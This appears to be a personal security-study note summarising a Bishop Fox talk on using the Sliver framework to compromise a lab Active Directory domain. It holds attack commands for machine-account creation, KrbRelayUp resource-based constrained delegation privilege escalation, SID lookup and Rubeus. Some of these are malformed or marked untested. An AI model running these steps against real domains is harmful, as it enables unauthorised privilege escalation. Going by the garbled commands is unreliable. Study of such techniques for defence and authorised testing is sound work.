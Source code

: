 # TALK Pwning the Domain With Sliver Framework

[YouTube Bishop Fox - Pwning the Domain With Sliver Framework](https://www.youtube.com/watch?v=PPNvN3P3ioY) description: *"Mastering the art of adversarial emulation with the most cutting-edge and advanced techniques is one of the keys to success for penetration testers. A definitive hallmark of an experienced ethical hacker is a meticulously crafted toolkit. But with an overwhelming array of tools at your disposal, how do you determine where to focus your efforts? During our exclusive livestream, watch how our renowned senior security expert, Jon Guild, leverages Bishop Fox’s Sliver, an open-source Red Team framework created by fellow Foxes Joe Demesy & Ronan Kervella, to refine his offensive security strategies and techniques. Gain valuable insights from Jon's first-hand experience in a vulnerable lab environment, covering pivotal techniques such as enumeration, lateral movement, and escalation. Be ready to level up your hacking skills at the conclusion of this training session with actionable tips and tricks. Join us to uncover the untapped potential of Sliver and take your offensive security skills to new heights. You’ll have the opportunity to dive into the world of Sliver and learn: - How to pwn the domain using Sliver - Techniques for developing and refining technical methodologies using the Sliver framework - A live demo highlighting Jon’s Sliver knowledge and expertise"*

This is sequel to [[TALK-Ace-The-OSEP-Exam-with-Sliver-Framework]]

[[Sliver]]

Recap:
- Recent changes to GOAD
- Starting on Meeren in Essos domain from
	- From Kali ASREP roast to `khal.drogo`
	- Owned `braavos` server
	- Enumerated with Bloodhound
	- [[GenericAll]] on `viserys`
	- Attempt KrbRelay for Privilege Escalation
	- Use [GitHub - KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp) 
		- Explanation [gist Tothi - No-Fix Local Privilege Escalation from low-priviliged domain user to local system on domain-joined computers.](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)

To clarify variable usage:
```bash
$SRC..., $DST... = (for domain or other identifiers); src = local, dst = remote
```

Because of where we are in are long term attack path, Jon can add a computer with the *Horse password user*... with [[Impacket-Cheatsheet]] and [[ldeep]] (a wrapper around `ldapsearch`) to verify; **Authorial Opinion**: *learn how rough [[LDAP-Recon]] is to understand LDAP, before using the easy way, LDAP is used in internal application probably more than RPC (proof the amount of CTF that use LDAP is vastly greater than RPC)*
```bash
impacket-addcomputer $domain.$tld/$username -computer-name '$cpName' -computer-pass 'P@ssword1' -dc-ip $DSTdcIP
```  

Use [[Krbrelayup]] to Privilege Escalate *not* Lateral movement; we are on DC coercing the LDAP server to abuse `msDS-AllowedToActOnBehalfofotherIdentity` (fancy way of saying Resource based Constrained Delegation) - the machine can write to its own `msDS-AllowedToActOnBehalfofotherIdentity` and update this to want we want. Use `checkPort.exe` to get the correct port: [gist Tothi - No-Fix Local Privilege Escalation from low-privileged domain user to local system on domain-joined computers.](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)

```powershell
Sharpmad.exe MAQ -Action new -MachineAccount evilcomputer -MachinePassword pass.123

# Get computer SID
$o = ([ADSI]"LDAP://CN=evilcomputer,CN=Computers,DC=ecorp,DC=local").objectSID
(New-Object System.Security.Principal.SecurityIdentifier($o.value, 0)).Value
# Get Computer SID
$f = "(&(objectCategroy=computer)(objectClass=computer)(cn=evilcomputer))"
$s = ([ADSISearcher]$f).FindOne().Properties.objectSID
(New-Object System.Security.Principal.SecurityIdentifier([byte[]]($s | Out-String -Stream), 0)).Value

```

Get COM Ports
```powershell
# NEED TO TEST - https://stackoverflow.com/questions/1081871/how-to-find-available-com-ports
[System.IO.Ports.SerialPort]::GetPortNames()
```

Build and Execute assembly through sliver 
https://github.com/cube0x0/KrbRelay/tree/main/CheckPort

[Juicy-Potato CLSID lists](https://github.com/ohpe/juicy-potato/tree/master/CLSID)
```go
// Use relay to resource constrained delegation - valuable to know this
// Other is shadowprint
krbrelayup '' relay -m rbcd -cls $CLSchooseTrustInstallerItsGoodByServer -p $port -cn '$computerName' -cp 'P@ssword1' -d $domain.$tld
// Check Machines and Delegations with LDAP for confirmation
```


Use Rubeus for RBCD
```go
rubeus -i -M -- hash / password:P@ssword1 /user:$computerName /domain:$DSTdomain.$tld
```
## References

[YouTube Bishop Fox - Pwning the Domain With Sliver Framework](https://www.youtube.com/watch?v=PPNvN3P3ioY) 
[GitHub - KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp) 
[gist Tothi - No-Fix Local Privilege Escalation from low-privileged domain user to local system on domain-joined computers.](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)
[Juicy-Potato CLSID lists](https://github.com/ohpe/juicy-potato/tree/master/CLSID)
